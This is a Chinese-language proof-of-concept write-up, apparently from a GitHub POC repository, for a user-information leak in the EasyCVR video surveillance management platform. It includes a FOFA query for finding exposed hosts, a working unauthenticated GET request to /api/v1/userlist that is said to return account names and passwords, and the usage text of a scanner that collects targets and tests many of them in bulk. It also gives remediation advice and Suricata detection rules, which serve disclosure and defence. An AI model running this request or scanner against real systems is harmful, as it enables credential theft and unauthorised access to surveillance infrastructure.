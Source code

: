 ### 产品简介  
EasyCVR 智能视频监控综合管理平台是一种针对大中型用户在跨区域网络化视频监控集中管理领域的安防管理软件。它具备多项功能，包括信息资源管理、设备管理、用户管理、网络管理和安全管理。该平台能够实现监控中心对所有视频监控图像的集中管理，并支持多个品牌设备的联网，确保联网视频监控传输质量，并提供资源统一检索和数据共享的功能。  

### 漏洞概述  
EasyCVR 智能视频监控综合管理平台是一种针对大中型用户在跨区域网络化视频监控集中管理领域的安防管理软件，该系统存在漏洞，攻击者访问特定的链接即可获取用户信息，包括账号密码。  

### 指纹识别  
fofa: title="EasyCVR"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/EasyCVR_information_leakage/2.png)

### 漏洞利用  
```
poc:
GET /api/v1/userlist?pageindex=0&pagesize=10 HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/EasyCVR_information_leakage/1.png)

### 测试和利用脚本  
```
python3 EasyCVR_information_leakage.py -h
usage: EasyCVR_information_leakage.py [-h] [-t] [-r FILE] [-u URL]

### EasyCVR video management platform has user information leakage. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python EasyCVR_information_leakage.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python EasyCVR_information_leakage.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  
2.临时屏蔽userlist接⼝  

### Suricata rules  
```
alert http any any -> any any (msg:"EasyCVR video management platform has user information leakage"; flow:established,to_server; flowbits:set,EasyCVR_information_leakage;noalert; content:"get";http_method;nocase; content:"/api/v1/userlist?pageindex=0&pagesize=10";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/EasyCVR_information_leakage; classtype:web-attck; metadata:created_at 2024-1-3,updated_at 2024-1-3,creater:YUUKI4O4; sid:3; rev:1;)
alert http any any -> any any (msg:"EasyCVR video management platform has successfully leaked user information"; flow:established,from_server; flowbits:isset,EasyCVR_information_leakage; content:"200";http_stat_code; content:"Content-Type: application/json";nocase; content:"{";http_server_body;nocase;startswith; content:"data";nocase;http_server_body;distance:0; content:"Name";nocase;http_server_body; content:"Username";nocase;http_server_body; content:"Password";nocase;http_server_body; content:"RoleName";nocase;http_server_body; reference:url,https://github.com/YUUKI4O4/POC/tree/main/EasyCVR_information_leakage; classtype:web-attck; metadata:created_at 2024-1-3,updated_at 2024-1-3,creater:YUUKI4O4; sid:4; rev:1;)
```

